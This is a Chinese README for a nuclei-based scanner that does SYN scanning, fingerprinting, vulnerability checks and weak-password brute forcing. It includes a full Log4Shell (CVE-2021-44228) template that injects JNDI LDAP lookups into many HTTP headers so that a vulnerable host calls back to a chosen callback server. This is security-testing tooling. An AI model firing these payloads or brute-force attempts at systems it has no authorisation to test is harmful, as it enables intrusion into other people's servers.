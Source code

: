 # 描述
  本项目是一款基于nuclei v2.9.6源码修改的漏洞扫描工具，主要功能包括了syn快速扫描，指纹识别以及漏洞扫描，并涵盖了多个弱口令爆破。
# 优缺点（对比fscan）
## 优点
 	1、使用流水线式并发，不用阶段性等待，syn扫描速度更快，适用于大型网络扫描
 	2、基于nuclei修改，开源poc更丰富，可以自定义poc,数据库集成poc,指纹后续可自定义性更强
 	3、爆破弱口令时，成功会自动停止爆破不再尝试
 	4、数据结构化，可用于后续的开发
## 缺点
	1、流水线式并发在爆破弱口令时会采用单线程爆破，爆破速相对会慢
 	2、采用syn扫描在网络波动较大时有可能丢包，切不会再次尝试发送syn报文
# 项目缺点
 	1、该项目由本人一人开发，维护和扩展性有待提高，bug还有待测试，目前只支持linux系统。后续可能会添加windows系统
 	2、本来有一个服务端和web数据可视化，但是奈何本人前端知识有限，实在是过于难看
 	3、在内网渗透中使用困难，目前只适用于公网扫描或者在自己机器上安装使用
# 食用方式
	1、安装mongodb
 	2、单独编译项目中initDb.go文件成可执行文件，并将"mh3Collection.json,pocCollection.json,responseCollection.json"放置在同一目录后运行初始化数据库
	3、安装libpcap依赖库，centos下使用命令yum intsall libpcap-devel
 	4、非常重要的一步，一定要关闭防火墙，关闭防火墙后，操作系统会自动回复rst,否则根据tcp重连机制，大概率会收到3次tcp ack数据包
# nuclei模板编写注意事项
## 以log4j为例
```
id: CVE-2021-44228

info:
  name: Apache Log4j2 远程命令执行
  author: melbadry9,dhiyaneshDK,daffainfo,anon-artist,0xceba,Tea,j4vaovo
  severity: critical
  description: |
    Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.
  remediation: Upgrade to Log4j 2.3.1 (for Java 6), 2.12.3 (for Java 7), or 2.17.0 (for Java 8 and later).
  tags: log4j
  metadata:
    max-request: 2

http:
  - raw:
      - |
        GET /?x=${jndi:ldap://{{interactsh}}/{{url}}} HTTP/1.1
        Host: {{Hostname}}

      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Accept: application/xml, application/json, text/plain, text/html, */${jndi:ldap://{{interactsh}}/{{header}}}
        Accept-Encoding: ${jndi:ldap://{{interactsh}}/{{header}}}
        Accept-Language: ${jndi:ldap://{{interactsh}}/{{header}}}
        Access-Control-Request-Headers: ${jndi:ldap://{{interactsh}}/{{header}}}
        Access-Control-Request-Method: ${jndi:ldap://{{interactsh}}/{{header}}}
        Authentication: Basic ${jndi:ldap://{{interactsh}}/{{header}}}
        Authentication: Bearer ${jndi:ldap://{{interactsh}}/{{header}}}
        Cookie: ${jndi:ldap://{{interactsh}}/{{header}}}
        Location: ${jndi:ldap://{{interactsh}}/{{header}}}
        Origin: ${jndi:ldap://{{interactsh}}/{{header}}}
        Referer: ${jndi:ldap://{{interactsh}}/{{header}}}
        Upgrade-Insecure-Requests: ${jndi:ldap://{{interactsh}}/{{header}}}
        User-Agent: ${jndi:ldap://{{interactsh}}/{{header}}}
        X-Api-Version: ${jndi:ldap://{{interactsh}}/{{header}}}
        X-CSRF-Token: ${jndi:ldap://{{interactsh}}/{{header}}}
        X-Druid-Comment: ${jndi:ldap://{{interactsh}}/{{header}}}
        X-Forwarded-For: ${jndi:ldap://{{interactsh}}/{{header}}}
        X-Origin: ${jndi:ldap://{{interactsh}}/{{header}}}
```
	其中interactsh表示回连本机地址，在公网扫描中需要将参数in设置成公网出口ip，在plugin/pocScan代码中，会将interactsh自动替换成In参数设置的ip地址来接受回连请求
# 后续
	将提高代码扩展性，优化性能

	
